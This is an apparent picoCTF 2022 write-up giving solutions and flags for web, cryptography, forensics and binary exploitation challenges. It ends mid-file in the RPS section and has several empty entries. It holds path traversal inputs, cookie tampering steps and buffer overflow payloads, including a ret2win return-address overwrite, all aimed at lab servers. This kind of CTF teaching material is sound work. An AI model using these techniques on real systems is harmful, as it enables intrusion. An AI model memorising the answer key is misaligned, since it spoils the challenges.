


## Web Exploitation

### Includes

> Can you get the flag?
Go to [this](http://saturn.picoctf.net:54634/) website and see what you can discover.
Hint: Is there more code than what the inspector initially shows?

Visiting the webpage, we notice that it loads two files in addition to `index.html` - `style.css` and `script.js`. They each contain a part of the flag.

**Flag:** `picoCTF{1nclu51v17y_1of2_f7w_2of2_df589022}`


### Inspect HTML

> Can you get the flag?
Go to [this](http://saturn.picoctf.net:50920/) website and see what you can discover.
Hint: What is the web inspector in web browsers?

We visit the provided site and find the flag as a comment in the HTML.

**Flag:** `picoCTF{1n5p3t0r_0f_h7ml_1fd8425b}`


### Local Authority

> Can you get the flag?
Go to [this](http://saturn.picoctf.net:54554/) website and see what you can discover.
Hint: How is the password checked on this website?

Visiting the site, we can view the HTML source code for the login page. We see that a POST request is sent to the `/login.php` endpoint when we submit a username and password. Visiting the page, we can see another suspicious file called `secure.js` whose contents are:

```js
function checkPassword(username, password) {
  if( username === 'admin' && password === 'strongPassword098765' )
    return true;
  else
    return false;
}
```

We can login with those credentials and find the flag.

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`


### Search Source

> The developer of this website mistakenly left an important artifact in the website source, can you find it?
The website is [here](http://saturn.picoctf.net:58133/)
Hint: How could you mirror the website on your local machine so you could use more powerful tools for searching?

We can take a look at the `styles.css` file and find the flag in a comment.

**Flag:** `picoCTF{1nsp3ti0n_0f_w3bpag3s_587d12b8}`


### Power Cookie

> Can you get the flag?
Go to [this](http://saturn.picoctf.net:55287/) website and see what you can discover.
Hint: Do you know how to modify cookies?

We visit the webpage and continue as guest. Taking a look at the cookies, we find that there is one called `isAdmin` that is set to `0`. Changing it to `1` and resending the request gives us the flag.

**Flag:** `picoCTF{gr4d3_A_c00k13_5d2505be}`


### Forbidden Paths

> Can you get the flag?
Here's the [website](http://saturn.picoctf.net:53864/).
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?

We know that absolute paths are forbidden, and so cannot just try to read the flag by providing the given location. But, we can notice that providing relative paths is not filtered by trying something like `../../../../../../../../../etc/passwd`. So, we provide `../../../../flag.txt` as input and can read the flag.

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_6db46514}`


### Roboto Sans

> The flag is somewhere on this web application not necessarily on the website. Find it.
Check [this](http://saturn.picoctf.net:65352/) out.

The challenge name hints towards the `/robots.txt` page - probably the first page you should check for every web related challenge to see if there are any hints. The content is as follows:

```
User-agent *
Disallow: /cgi-bin/
Think you have seen your flag or want to keep looking.

ZmxhZzEudHh0;anMvbXlmaW
anMvbXlmaWxlLnR4dA==
svssshjweuiwl;oiho.bsvdaslejg
Disallow: /wp-admin/
```

`ZmxhZzEudHh0` decrypts to `flag1.txt` using Base64 decode. Visiting `/flag1.txt` gives us a 404 response.

`anMvbXlmaWxlLnR4dA==` decrypts to `js/myfile.txt` using Base64 decode. Visiting `/js/myfile.txt` gives us the flag.

**Flag:** `picoCTF{Who_D03sN7_L1k5_90B0T5_718c9043}`


## Cryptography

### basic-mod1

> We found this weird message being passed around on the servers, we think we have a working decrpytion scheme.
Download the message [here](https://artifacts.picoctf.net/c/393/message.txt).
Take each number mod 37 and map it to the following character set: 0-25 is the alphabet (uppercase), 26-35 are the decimal digits, and 36 is an underscore.
Wrap your decrypted message in the picoCTF flag format (i.e. picoCTF{decrypted_message})
> 
> Hint 1: Do you know what mod 37 means?
> Hint 2: mod 37 means modulo 37. It gives the remainder of a number after being divided by 37.

We simply perform what's asked in the description and retrieve the decrypted message.

**Flag:** `picoCTF{R0UND_N_R0UND_79C18FB3}`


### basic-mod2

> A new modular challenge!
Download the message [here](https://artifacts.picoctf.net/c/499/message.txt).
Take each number mod 41 and find the modular inverse for the result. Then map to the following character set: 1-26 are the alphabet, 27-36 are the decimal digits, and 37 is an underscore.
Wrap your decrypted message in the picoCTF flag format (i.e. picoCTF{decrypted_message})
Hint 1: Do you know what the modular inverse is?
Hint 2: The inverse modulo z of x is the number, y that when multiplied by x is 1 modulo z
Hint 3: It's recommended to use a tool to find the modular inverses

Again, similar to last challenge, we implemented what is asked in the statement correctly and retrieve the flag.

```python
with open('message.txt') as file:
  content = list(map(int, file.read().split()))

for x in content:
  x %= 41
  x = pow(x, -1, 41)
  
  if x <= 26:
    x = chr(ord('A') + x - 1)
  elif x <= 36:
    x = chr(ord('0') + x - 27)
  else:
    x = '_'
  
  print(x, end = '')
```

**Flag:** `picoCTF{1NV3R53LY_H4RD_C680BDC1}`


### credstuff

> We found a leak of a blackmarket website's login credentials. Can you find the password of the user cultiris and successfully decrypt it?
Download the leak [here](https://artifacts.picoctf.net/c/534/leak.tar).
The first user in usernames.txt corresponds to the first password in passwords.txt. The second user corresponds to the second password, and so on.

We can find the index of the user cultiris using something like: `cat usernames.txt | grep cultiris -n`. This tells us that cultiris is the 378'th entry in the list. We can print out the 378'th password using `cat passwords.txt | sed -n '378p'`. The output is `cvpbPGS{P7e1S_54I35_71Z3}`. This is a rot13 cipher that can be easily decoded.

**Flag:** `picoCTF{C7r1F_54V35_71M3}`


### Morse Code

> Morse code is well known. Can you decrypt this?
Download the file [here](https://artifacts.picoctf.net/c/235/morse_chal.wav).
Wrap your answer with picoCTF{}, put underscores in place of pauses, and use all lowercase.
Hint: Audacity is a really good program to analyze morse code audio.

We can use an online morse code audio decode like [this](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) one to retrieve the flag.

**Flag:** `picoCTF{wh47_h47h_90d_w20U9h7}`


### rail-fence

> A type of transposition cipher is the rail fence cipher, which is described [here](https://en.wikipedia.org/wiki/Rail_fence_cipher). Here is one such cipher encrypted using the rail fence with 4 rails. Can you decrypt it?
Download the message [here](https://artifacts.picoctf.net/c/272/message.txt).
Put the decoded message in the picoCTF flag format, picoCTF{decoded_message}.
Hint: Once you've understood how the cipher works, it's best to draw it out yourself on paper

The provided ciphertext is as follows:

```
Ta _7N6D49hlg:W3D_H3C31N__A97ef sHR053F38N43D7B i33___N6
```

We can use an online decrypter for rail fence cipher such as [this](https://www.dcode.fr/rail-fence-cipher) one to retrieve the flag. We need to use railfence height as 4, which can be found using trial and error. The message retrieved is:

```
The flag is: WH3R3_D035_7H3_F3NC3_8361N_4ND_3ND_4A76B997
```

**Flag:** `picoCTF{WH3R3_D035_7H3_F3NC3_8361N_4ND_3ND_4A76B997}`


### substitution0

> A message has come in but it seems to be all scrambled. Luckily it seems to have the key at the beginning. Can you crack this substitution cipher?
Download the message [here](https://artifacts.picoctf.net/c/379/message.txt).
Hint: Try a frequency attack. An online tool might help.

The ciphertext that was provided was:

```
EKSZJTCMXOQUDYLFABGPHNRVIW 

Mjbjhfly Ujcbeyz eblgj, rxpm e cbenj eyz gpepjui exb, eyz kblhcmp dj pmj kjjpuj
tbld e cuegg segj xy rmxsm xp reg jysulgjz. Xp reg e kjehpxthu gsebekejhg, eyz, ep
pmep pxdj, hyqylry pl yephbeuxgpg—lt slhbgj e cbjep fbxwj xy e gsxjypxtxs flxyp
lt nxjr. Pmjbj rjbj prl blhyz kuesq gflpg yjeb lyj jvpbjdxpi lt pmj kesq, eyz e
ulyc lyj yjeb pmj lpmjb. Pmj gseujg rjbj jvsjjzxycui mebz eyz culggi, rxpm euu pmj
effjebeysj lt khbyxgmjz cluz. Pmj rjxcmp lt pmj xygjsp reg njbi bjdebqekuj, eyz,
peqxyc euu pmxycg xypl slygxzjbepxly, X slhuz mebzui kuedj Ohfxpjb tlb mxg lfxyxly
bjgfjspxyc xp.

Pmj tuec xg: fxslSPT{5HK5717H710Y_3N0UH710Y_59533E2J}
```

We can use any online substitution cipher decoder such as [this](https://www.dcode.fr/monoalphabetic-substitution) to decrypt the text using automatic bruteforce frequency attack. The decrypted message is:

```
ABCDEFGHIJKLMNOPZRSTUVWXYQ HEREUPON LEGRAND AROSE, WITH A GRAVE AND STATELY AIR, AND BROUGHT ME THE BEETLE FROM A GLASS CASE IN WHICH IT WAS ENCLOSED. IT WAS A BEAUTIFUL SCARABAEUS, AND, AT THAT TIME, UNKNOWN TO NATURALISTS--OF COURSE A GREAT PRIQE IN A SCIENTIFIC POINT OF VIEW. THERE WERE TWO ROUND BLACK SPOTS NEAR ONE EXTREMITY OF THE BACK, AND A LONG ONE NEAR THE OTHER. THE SCALES WERE EXCEEDINGLY HARD AND GLOSSY, WITH ALL THE APPEARANCE OF BURNISHED GOLD. THE WEIGHT OF THE INSECT WAS VERY REMARKABLE, AND, TAKING ALL THINGS INTO CONSIDERATION, I COULD HARDLY BLAME JUPITER FOR HIS OPINION RESPECTING IT. THE FLAG IS: PICOCTF{5UB5717U710N_3V0LU710N_59533A2E}
```

**Flag:** `PICOCTF{5UB5717U710N_3V0LU710N_59533A2E}`


### substitution1

> A second message has come in the mail, and it seems almost identical to the first one. Maybe the same thing will work again.
Download the message [here](https://artifacts.picoctf.net/c/414/message.txt).
Hint 1: Try a frequency attack
Hint 2: Do the punctuation and the individual words help you make any substitutions?

The encrypted message is as follows:

```
IECj (jqfue cfu ixzelus eqs coxa) xus x emzs fc ifrzlesu jsiludem ifrzsededfy. Ifyesjexyej xus zusjsyesk hdeq x jse fc iqxoosyasj hqdiq esje eqsdu iusxedgdem, esiqydixo (xyk affaodya) jpdooj, xyk zuftosr-jfogdya xtdodem. Iqxoosyasj ljlxoom ifgsu x ylrtsu fc ixesafudsj, xyk hqsy jfogsk, sxiq mdsokj x jeudya (ixoosk x coxa) hqdiq dj jltrdeesk ef xy fyodys jifudya jsugdis. IECj xus x ausxe hxm ef osxuy x hdks xuuxm fc ifrzlesu jsiludem jpdooj dy x jxcs, osaxo sygdufyrsye, xyk xus qfjesk xyk zoxmsk tm rxym jsiludem auflzj xuflyk eqs hfuok cfu cly xyk zuxiedis. Cfu eqdj zuftosr, eqs coxa dj: zdifIEC{CU3NL3YIM_4774IP5_4U3_I001_4871S6CT}
```

This is a slightly difficult version of the monoalphabetic substitution cipher in problem0 but it is no problem for [this](https://www.dcode.fr/monoalphabetic-substitution) decoder. We get the deciphered message:

```
CTFS (SHORT FOR CAPTURE THE FLAG) ARE A TYPE OF COMPUTER SECURITY COMPETITION. CONTESTANTS ARE PRESENTED WITH A SET OF CHALLENGES WHICH TEST THEIR CREATIVITY, TECHNICAL (AND GOOGLING) SKILLS, AND PROBLEM-SOLVING ABILITY. CHALLENGES USUALLY COVER A NUMBER OF CATEGORIES, AND WHEN SOLVED, EACH YIELDS A STRING (CALLED A FLAG) WHICH IS SUBMITTED TO AN ONLINE SCORING SERVICE. CTFS ARE A GREAT WAY TO LEARN A WIDE ARRAY OF COMPUTER SECURITY SKILLS IN A SAFE, LEGAL ENVIRONMENT, AND ARE HOSTED AND PLAYED BY MANY SECURITY GROUPS AROUND THE WORLD FOR FUN AND PRACTICE. FOR THIS PROBLEM, THE FLAG IS: PICOCTF{FR3JU3NCY_4774CK5_4R3_C001_4871E6FB}
```

There's one small error though. We need to change the `J` to a `Q` in the deciphered message flag. Frequency analysis is not always perfect :(

**Flag:** `PICOCTF{FR3QU3NCY_4774CK5_4R3_C001_4871E6FB}`


### substitution2

> It seems that another encrypted message has been intercepted. The encryptor seems to have learned their lesson though and now there isn't any punctuation! Can you still crack the cipher?
Download the message [here](https://artifacts.picoctf.net/c/107/message.txt).
Hint: Try refining your frequency attack, maybe analyzing groups of letters would improve your results?

The provided ciphertext is as follows:

```
gvjwjjoeugujajwqxzgvjwkjxxjugqfxeuvjivecvumvzzxmzbpsgjwujmswegrmzbpjgegezhuehmxsiehcmrfjwpqgwezgqhisumrfjwmvqxxjhcjgvjujmzbpjgegezhunzmsupwebqwexrzhurugjbuqibeheugwqgezhnshiqbjhgqxukvemvqwjajwrsujnsxqhibqwdjgqfxjudexxuvzkjajwkjfjxejajgvjpwzpjwpswpzujznqvecvumvzzxmzbpsgjwujmswegrmzbpjgegezheuhzgzhxrgzgjqmvaqxsqfxjudexxufsgqxuzgzcjgugsijhguehgjwjugjiehqhijomegjiqfzsgmzbpsgjwumejhmjijnjhueajmzbpjgegezhuqwjzngjhxqfzwezsuqnnqewuqhimzbjizkhgzwshhehcmvjmdxeuguqhijojmsgehcmzhnecumwepguznnjhujzhgvjzgvjwvqhieuvjqaexrnzmsujizhjopxzwqgezhqhiebpwzaeuqgezhqhizngjhvqujxjbjhguznpxqrkjfjxejajqmzbpjgegezhgzsmvehczhgvjznnjhueajjxjbjhguznmzbpsgjwujmswegreugvjwjnzwjqfjggjwajvemxjnzwgjmvjaqhcjxeubgzugsijhguehqbjwemqhvecvumvzzxunswgvjwkjfjxejajgvqgqhshijwugqhiehcznznnjhueajgjmvhelsjueujuujhgeqxnzwbzshgehcqhjnnjmgeajijnjhujqhigvqggvjgzzxuqhimzhnecswqgezhnzmsujhmzshgjwjiehijnjhueajmzbpjgegezhuizjuhzgxjqiugsijhgugzdhzkgvjewjhjbrqujnnjmgeajxrqugjqmvehcgvjbgzqmgeajxrgvehdxedjqhqggqmdjwpemzmgneuqhznnjhueajxrzwejhgjivecvumvzzxmzbpsgjwujmswegrmzbpjgegezhgvqgujjdugzcjhjwqgjehgjwjugehmzbpsgjwumejhmjqbzhcvecvumvzzxjwugjqmvehcgvjbjhzscvqfzsgmzbpsgjwujmswegrgzpelsjgvjewmswezuegrbzgeaqgehcgvjbgzjopxzwjzhgvjewzkhqhijhqfxehcgvjbgzfjggjwijnjhigvjewbqmvehjugvjnxqceupemzMGN{H6W4B_4H41R515_15_73I10S5_8J1FN808}
```

We can, once again, use [this](https://www.dcode.fr/monoalphabetic-substitution) site to decipher the message. It really has a powerful monoalphabetic substituion cipher! The decoded message is:

```
THEREEXISTSEVERALOTHERWELLESTABLISHEDHIGHSCHOOLCOMPUTERSECURITYCOMPETITIONSINCLUDINGCYBERPATRIOTANDUSCYBERCHALLENGETHESECOMPETITIONSFOCUSPRIMARILYONSYSTEMSADMINISTRATIONFUNDAMENTALSWHICHAREVERYUSEFULANDMARKETABLESKILLSHOWEVERWEBELIEVETHEPROPERPURPOSEOFAHIGHSCHOOLCOMPUTERSECURITYCOMPETITIONISNOTONLYTOTEACHVALUABLESKILLSBUTALSOTOGETSTUDENTSINTERESTEDINANDEXCITEDABOUTCOMPUTERSCIENCEDEFENSIVECOMPETITIONSAREOFTENLABORIOUSAFFAIRSANDCOMEDOWNTORUNNINGCHECKLISTSANDEXECUTINGCONFIGSCRIPTSOFFENSEONTHEOTHERHANDISHEAVILYFOCUSEDONEXPLORATIONANDIMPROVISATIONANDOFTENHASELEMENTSOFPLAYWEBELIEVEACOMPETITIONTOUCHINGONTHEOFFENSIVEELEMENTSOFCOMPUTERSECURITYISTHEREFOREABETTERVEHICLEFORTECHEVANGELISMTOSTUDENTSINAMERICANHIGHSCHOOLSFURTHERWEBELIEVETHATANUNDERSTANDINGOFOFFENSIVETECHNIQUESISESSENTIALFORMOUNTINGANEFFECTIVEDEFENSEANDTHATTHETOOLSANDCONFIGURATIONFOCUSENCOUNTEREDINDEFENSIVECOMPETITIONSDOESNOTLEADSTUDENTSTOKNOWTHEIRENEMYASEFFECTIVELYASTEACHINGTHEMTOACTIVELYTHINKLIKEANATTACKERPICOCTFISANOFFENSIVELYORIENTEDHIGHSCHOOLCOMPUTERSECURITYCOMPETITIONTHATSEEKSTOGENERATEINTERESTINCOMPUTERSCIENCEAMONGHIGHSCHOOLERSTEACHINGTHEMENOUGHABOUTCOMPUTERSECURITYTOPIQUETHEIRCURIOSITYMOTIVATINGTHEMTOEXPLOREONTHEIROWNANDENABLINGTHEMTOBETTERDEFENDTHEIRMACHINESTHEFLAGISPICOCTF{N6R4M_4N41Y515_15_73D10U5_8E1BF808}
```

**Flag:** `PICOCTF{N6R4M_4N41Y515_15_73D10U5_8E1BF808}`


### Vigenere

> Can you decrypt this message?
Decrypt [this](https://artifacts.picoctf.net/c/527/cipher.txt) message using this key "CYLAB".

Here's the ciphertext:

```
rgnoDVD{O0NU_WQ3_G1G3O3T3_A1AH3S_cc82272b}
```

This is a simple vigenere cipher that can be decoded using a vigenere cipher solver. We just need to plug in the key and the message and can retrieve the flag. I used [this](https://www.dcode.fr/vigenere-cipher) site for deciphering the ciphertext.

**Flag:** `picoCTF{D0NT_US3_V1G3N3R3_C1PH3R_ae82272q}`


### transposition-trial

> Our data got corrupted on the way here. Luckily, nothing got replaced, but every block of 3 got scrambled around! The first word seems to be three letters long, maybe you can use that to recover the rest of the message.
Download the corrupted message [here](https://artifacts.picoctf.net/c/456/message.txt).
Hint: Split the message up into blocks of 3 and see how the first block is scrambled

The provided ciphertext is:

```
heTfl g as iicpCTo{7F4NRP051N5_16_35P3X51N3_V6E5926A}4
```

One can easily notice that every block of 3 characters has been permuted from characters [1, 2, 3] to [3, 1, 2].

```python
with open('message.txt') as file:
  content = file.read().strip()

for i in range(0, len(content), 3):
  print(content[i + 2], end = '')
  print(content[i], end = '')
  print(content[i + 1], end = '')
```

**Flag:** `picoCTF{7R4N5P051N6_15_3XP3N51V3_56E6924A}`


## Forensics

### Enhance!

> Download this image file and find the flag.
[Download image file](https://artifacts.picoctf.net/c/136/drawing.flag.svg)

Opening the file, we can see that the flag is present in the SVG as different elements. The font size is set very low and so it's not possible to view the flag without manually changing the pixel size of each. Instead, we can use something like BeautifulSoup to print out the text.

```python
from bs4 import BeautifulSoup

with open('drawing.flag.svg') as file:
    content = file.read()

soup = BeautifulSoup(content, 'lxml')
print(soup.text.strip().replace(' ', ''))
```

**Flag:** `picoCTF{3nh4nc3d_aab729dd}`


### File Types

> This file was found among some files marked confidential but my pdf reader cannot read it, maybe yours can.
You can download the file from [here](https://artifacts.picoctf.net/c/323/Flag.pdf).
Hint: Remember that some file types can contain and nest other files

We just need to decompress a bunch of different archive formats. These are the steps.

```bash
sudo apt install sharutils lzip lz4 lzop xz-utils -y
sh Flag.pdf
mv flag flag.ar
ar x flag.ar
mv flag flag.cpio
cpio -idmv < flag.cpio
mv flag flag.bzip2
bzip2 -d flag.bzip2
mv flag.bzip2.out flag.gz
gunzip flag.gz
mv flag flag.lz
lzip -d flag.lz
mv flag flag.lz4
unlz4 flag.lz4
mv flag flag.lzma
unlzma flag.lzma
mv flag flag.lzo
lzop -d flag.lzo
mv flag flag.lz
lzip -d flag.lz
mv flag flag.xz
unxz flag.xz
echo "Flag: `unhex < flag`"
```

**Flag:** `picoCTF{f1len@m3_m@n1pul@t10n_f0r_0b2cur17y_3c79c5ba}`


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


## Binary Exploitation

### CVE-XXXX-XXXX

> Enter the CVE of the vulnerability as the flag with the correct flag format:
picoCTF{CVE-XXXX-XXXXX} replacing XXXX-XXXXX with the numbers for the matching vulnerability.
The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.
Hint: We're not looking for the Local Spooler vulnerability in 2021...

We can Google the vulnerability and find the correct CVE.

**Flag:** `picoCTF{CVE-2021-34527}`


### Basic file exploit

> The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
Connect to the program with netcat:
$ nc saturn.picoctf.net 53641
The program's source code with the flag redacted can be downloaded here.
Hint: Try passing in things the program doesn't expect. Like a string instead of a number.

We are provided with a file containing the source code for the challenge. Doing a quick analysis of the source code, we can notice that we are provided with an application that can take in our data, store it and send it back to us if requested. There's a check in `data_read()` function which prints out the flag if the index we provided is 0. So, we can create some data first to enable us to use the data_read function, and then request for data at index 0.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <stdint.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


static const char* flag = "[REDACTED]";

static char data[10][100];
static int input_lengths[10];
static int inputs = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


static void data_write() {
  char input[100];
  char len[4];
  long length;
  int r;
  
  printf("Please enter your data:\n");
  r = tgetinput(input, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  while (true) {
    printf("Please enter the length of your data:\n");
    r = tgetinput(len, 4);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
  
    if ((length = strtol(len, NULL, 10)) == 0) {
      puts("Please put in a valid length");
    } else {
      break;
    }
  }

  if (inputs > 10) {
    inputs = 0;
  }

  strcpy(data[inputs], input);
  input_lengths[inputs] = length;

  printf("Your entry number is: %d\n", inputs + 1);
  inputs++;
}


static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}


int main(int argc, char** argv) {
  char input[3] = {'\0'};
  long command;
  int r;

  puts("Hi, welcome to my echo chamber!");
  puts("Type '1' to enter a phrase into our database");
  puts("Type '2' to echo a phrase in our database");
  puts("Type '3' to exit the program");

  while (true) {   
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
    } else if (command == 1) {
      data_write();
      puts("Write successful, would you like to do anything else?");
    } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
    } else if (command == 3) {
      return 0;
    } else {
      puts("Please type either 1, 2 or 3");
      puts("Maybe breaking boundaries elsewhere will be helpful");
    }
  }

  return 0;
}
```

**Flag:** `picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_C5BC1889}`


### buffer overflow 0

> Smash the stack
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 53935
Hint 1: How can you trigger the flag to print?
Hint 2: If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
Hint 3: Run man gets and read the BUGS section. How many characters can the program really read?

We simply need to smash the stack to trigger the sigsegv_handler function that prints out the flag for us. We can do this simply by providing a very large input to overflow the stack and change the stack protection canaries bits. This is possible because of the use of the unsafe function `gets` - which reads as many bits of data as provided and not limiting the amount stored based on buffer size. The source code provided is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

We can run something like `python3 -c "print('A' * 1000)" | nc saturn.picoctf.net 53935`

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}`


### buffer overflow 1

> Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 62790
Hint 1: Make sure you consider big Endian vs small Endian.
Hint 2: Changing the address of the return pointer can call different functions.

We are provided the C file used to generate the challenge as well as the copy of the binary that's running on the server. The source code is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The challenge is based on ret2win exploit - a kind of attack where an attacker can gain control over the instruction pointer using buffer overflow. `gets` being a dangerous function allows for buffer overflow attacks. Let's run some basic file analysis on the challenge binary.



The challenge binary is a ELF 32-bit LSB executable, which means that the values are stored and read in little endian format. It is also not stripped, which means reverse engineering it would be much easier if we weren't provided the source code as compared to if it was stripped.

`Stack` is disabled: This means that the binary does not have any buffer overflow protections in place. There are no stack check canaries which makes exploitation much easier, as otherwise we might end up smashing the stack and not have a successful exploit working.

`NX` is disabled: This means that the stack is labelled executable. When the stack is executable, an attacker can write their own instructions on there and redirect program execution to the stack from the normal flow of the program. This is what's called "Shellcode" injection.

`PIE` is disabled: This means that all functions and symbols are present at fixed locations in memory when the program is run. If it was enabled, their location would be different for every program run.

As all protections are disabled, this opens up many attack vectors. Let's start exploring the ret2win way to exploit the binary.

Our program flow asks us for input in the `vuln` function, where input is taken using a `gets` call. This is vulnerable to a buffer overflow (as gets does not check the length of input provided and can write more data than the buffer is mean to hold) and we can gain control over the instruction pointer by modifying the return address on the stack with our provided input. We have to fill in `44` bytes (32 for the buffer and 12 as padding that is inserted by compiler) with random bytes before we gain control of the return address. We can then overwrite it with the address of the function `win`. The address can be found using `gdb` and similar.



As can be seen, the address of `win` function is `0x080491f6`. However, this is in big endian format. We need to write our data in little endian order to be able to jump to the correct address. The little endian address, is therefore, 0xf6910408. The complete payload can be generated as:

```
python -c "print(b'A' * 44 + b'\xf6\x91\x04\x08')"
```

**Flag:** `picoCTF{addr3ss3s_ar3_3asy_ad2f467b}`


### RPS

> Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.
Connect to the program with netcat:
$ nc saturn.picoctf.net 51420
The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/442/game-redacted.c).
>
> Hint: How does the program check if you won?

Here's the source code that is provided:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60


